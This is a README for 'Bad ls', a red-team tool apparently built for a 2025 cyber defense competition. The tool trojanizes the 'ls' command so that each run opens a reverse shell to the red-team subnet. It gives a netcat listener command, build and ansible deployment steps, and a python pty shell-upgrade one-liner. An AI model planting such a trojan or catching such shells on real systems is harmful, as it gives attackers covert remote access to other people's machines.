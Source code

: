 # CDT 2025 Red Team tool
## Bad ls
Red team tool that will give the entire 10.0.20.0/24 red team subnet a reverse shell if the red team box is listening on the correct port

Reverse shells will be initiated on every blue team execution of the "ls" command

The port number the reverse shell will connect to will be
```py
(10000,20000,30000 depending on blue team number + last octet of target ip address)
```
So, for example, we want to connect to 10.0.3.5, the port number will be `30005`

## Starting listener
Port number is subject to change
```bash
nc -nvlp 30005
```

## Building and deploying

Note: build executable on debian bookworm instance

Install libpython3.11
```bash
apt install libpython3.11
```

In the venv, install requirements
```bash
pip install -r requirements.txt
```

Build python script into linux binary
```bash
./convert_to_linux_binary.sh
```

Configure `ansible/inventory.ini` to match target(s), then deploy
```bash
ansible-playbook deploy_tools.yml
```

## Upgrading reverse shell to fully interactive tty
Execute this after recieving a netcat connection
Useful for being able to use sudo, etc. 
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

# TODO
Make "all-in-one" deploy script that will build and then deploy to box
Create tmux listeners for every possible IP in scope

> Author: Daniel Wolosiuk

Oct 17, 2025

